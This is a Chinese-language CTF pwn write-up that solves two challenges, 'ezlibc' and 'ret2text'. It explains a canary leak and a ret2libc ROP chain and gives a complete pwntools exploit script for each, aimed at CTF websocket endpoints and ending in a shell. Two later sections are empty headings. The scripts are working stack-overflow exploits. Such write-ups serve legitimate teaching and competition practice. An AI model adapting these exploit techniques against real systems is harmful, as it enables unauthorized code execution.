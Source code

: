 CrazyCat-pwn
![[Pasted image 20250121140940.png]]
~~做了两题就去春秋杯了，结果春秋杯爆零，还不如把这个做完QAQ。~~
# ezlibc
![[Pasted image 20250121141259.png]]
一道简单的ret2libc的题目，开启canary,得先想办法泄漏canary。
![[Pasted image 20250121141418.png]]
![[Pasted image 20250121141711.png]]
虽然有printf函数，但不能直接泄漏地址，但printf会一直输出直到\x00，那么把canary前填充满deadbeef就能泄漏canary。
泄漏canary后在构造ROP泄漏地址，获取libc基址并重新调用read函数进行第三次溢出来获取shell。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = True

if local:

p = process('./ezlibc')

pwnlib.gdb.attach(p, 'b bug')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471c6-5bcb-772c-b85c-78d6ad4f3ed1')

  

elf = ELF('./ezlibc')

  

payload = b'a' * (0x29)

p.send(payload)

p.recvuntil(b'a' * 0x29)

canary = u64(b'\x00' + p.recv(7))

log.success('canary: ' + hex(canary))

  

rdi = 0x400843

puts_got = elf.got['puts']

puts_plt = elf.plt['puts']

bug = 0x4006e7

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(bug)

p.recvuntil(b'closer to the key')

p.send(payload)

  

p.recvuntil(b'keep trying\n')

puts_addr = u64(p.recv(6).ljust(8, b'\x00'))

  

'''libc = LibcSearcher('puts', puts_addr)

base = puts_addr - libc.dump('puts')

system = base + libc.dump('system')

binsh = base + libc.dump('str_bin_sh')'''

  

ret = 0x40059e

log.success('puts_addr: ' + hex(puts_addr))

base = puts_addr - 0x80970

system = base + 0x4f420

binsh = base + 0x1b3d88

  

payload = b'a' * (0x28) + p64(canary) + b'a' * 8 + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

p.send(payload)

p.sendafter(b'closer to the key', b'a')

  

p.interactive()
```
shell:
![[Pasted image 20250121160630.png]]
# ret2text
简单的ret2text类型题目
找到溢出点，backdoors，构造payload即可。
exp:
```python
from pwn import *

# from LibcSearcher import LibcSearcher

from wstube import websocket

  

context.log_level = 'debug'

local = False

if local:

p = process('./1')

pwnlib.gdb.attach(p, 'b main')

else:

p = websocket('wss://xlctf.huhstsec.top/api/proxy/019471ee-7eac-765f-ae48-e2b9fb68618e')

  

backdoor = 0x40115a

payload = b'a' * (0xa + 8) + p64(backdoor)

p.send(payload)

p.interactive()
```
shell:
![[Pasted image 20250121161101.png]]

# sandbox

# 宇宙射线

